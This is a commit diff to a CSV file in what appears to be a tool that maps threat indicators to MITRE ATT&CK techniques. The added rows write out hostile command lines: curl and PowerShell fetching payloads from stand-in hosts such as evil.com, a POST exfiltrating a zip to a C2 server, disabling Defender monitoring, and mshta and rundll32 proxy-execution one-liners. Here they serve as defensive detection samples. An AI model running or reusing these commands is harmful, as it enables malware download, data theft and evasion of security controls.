

Before and after one commit to mauLanarhodes/MITRE-ATT-CK-TTP-Mapper, a CSV file: report.csv, drawn as a sheet.

```diff
--- a/report.csv
+++ b/report.csv
@@ -1,4 +1,9 @@
 IOC Summary,Technique ID,Mapped Technique,Tactic
-powershell downloading exe file,T1059,Command and Scripting Interpreter,Execution
-curl http://malicious-site.com,T1105,Ingress Tool Transfer,Command and Control
-rundll32 executing script,T1218,Signed Binary Proxy Execution,Defense Evasion
+powershell -enc Base64EncodedPayload downloading exe file from 192.168.1.50,T1059,Command and Scripting Interpreter,Execution
+curl http://malicious-site.com/payload.bin -o C:\Temp\update.exe,T1105,Ingress Tool Transfer,Command and Control
+rundll32 executing script from AppData\Local\Temp\malware.dll,T1218,Signed Binary Proxy Execution,Defense Evasion
+powershell Invoke-WebRequest -Uri http://evil.com/shell.ps1 -OutFile C:\Users\Public\shell.ps1,T1059,Command and Scripting Interpreter,Execution
+curl -X POST http://c2-server.net/exfil --data @sensitive_data.zip,T1105,Ingress Tool Transfer,Command and Control
+"rundll32.exe javascript:""\..\mshtml,RunHTMLApplication"";document.write()",T1218,Signed Binary Proxy Execution,Defense Evasion
+powershell Set-MpPreference -DisableRealtimeMonitoring $true,T1059,Command and Scripting Interpreter,Execution
+"mshta vbscript:Execute(""CreateObject(""""Wscript.Shell"""").Run """"powershell -ep bypass"""", 0:close"")",T1059,Command and Scripting Interpreter,Execution
```
Also changed, not shown: 20 other files.
